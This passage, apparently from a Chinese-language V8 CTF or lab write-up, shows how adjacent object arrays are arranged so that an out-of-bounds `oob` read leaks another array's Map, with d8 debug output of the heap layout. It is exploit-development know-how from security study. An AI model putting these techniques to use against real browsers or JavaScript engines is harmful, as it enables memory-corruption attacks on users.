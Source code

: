 查看内存数据：

![](</assets/images/Pasted image 20220213221256.png>)

对象数组的元素是 4 字节的标记指针，而 `oob` 函数是把数组元素当做 8 字节的浮点数处理的，这使得对象数组的 `oob` 是不能直接读取到 map 的。

不过随着数组元素数量的增加，`oob` 能读到的位置是在向下移动的，最终一定会越过对象数组的所在的区域，读到高地址处其他的值。如果我们先在后面的内存中布局其它的对象数组，就有可能读到其它对象数组的 map。

经过简单的计算和尝试，找到了一个合适的方案：创建相邻的两个对象数组，第一个数组有 8 个元素，第二个数组有 2 个元素。第一个数组的 `oob` 函数刚好就可以读到第二个数组的 Map 值。

```bash
d8> arr2 = [obj, obj, obj, obj, obj, obj, obj, obj];arr3=[obj,obj]
[{}, {}]
d8> %DebugPrint(arr2)
DebugPrint: 000003C00810B239: [JSArray]
 - map: 0x03c0082c3b31 <Map(PACKED_ELEMENTS)> [FastProperties]
 - prototype: 0x03c00828bebd <JSArray[0]>
 - elements: 0x03c00810b211 <FixedArray[8]> [PACKED_ELEMENTS]
 - length: 8
 - properties: 0x03c00800222d <FixedArray[0]>
 - All own properties (excluding elements): {
    000003C0080048F1: [String] in ReadOnlySpace: #length: 0x03c00820215d <AccessorInfo> (const accessor descriptor), location: descriptor
 }
 - elements: 0x03c00810b211 <FixedArray[8]> {
         0-7: 0x03c00810afad <Object map = 000003C0082C22D1>
 }
000003C0082C3B31: [Map]
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - elements kind: PACKED_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - back pointer: 0x03c0082c3b09 <Map(HOLEY_DOUBLE_ELEMENTS)>
 - prototype_validity cell: 0x03c008202405 <Cell value= 1>
 - instance descriptors #1: 0x03c00828c38d <DescriptorArray[1]>
 - transitions #1: 0x03c00828c409 <TransitionArray[4]>Transition array #1:
     0x03c008005229 <Symbol: (elements_transition_symbol)>: (transition to HOLEY_ELEMENTS) -> 0x03c0082c3b59 <Map(HOLEY_ELEMENTS)>

 - prototype: 0x03c00828bebd <JSArray[0]>
 - constructor: 0x03c00828bc4d <JSFunction Array (sfi = 000003C00820FE71)>
 - dependent code: 0x03c0080021b9 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0

[{}, {}, {}, {}, {}, {}, {}, {}]
d8> %DebugPrint(arr3)
DebugPrint: 000003C00810B259: [JSArray]
 - map: 0x03c0082c3b31 <Map(PACKED_ELEMENTS)> [FastProperties]
 - prototype: 0x03c00828bebd <JSArray[0]>
 - elements: 0x03c00810b249 <FixedArray[2]> [PACKED_ELEMENTS]
 - length: 2
 - properties: 0x03c00800222d <FixedArray[0]>
 - All own properties (excluding elements): {
```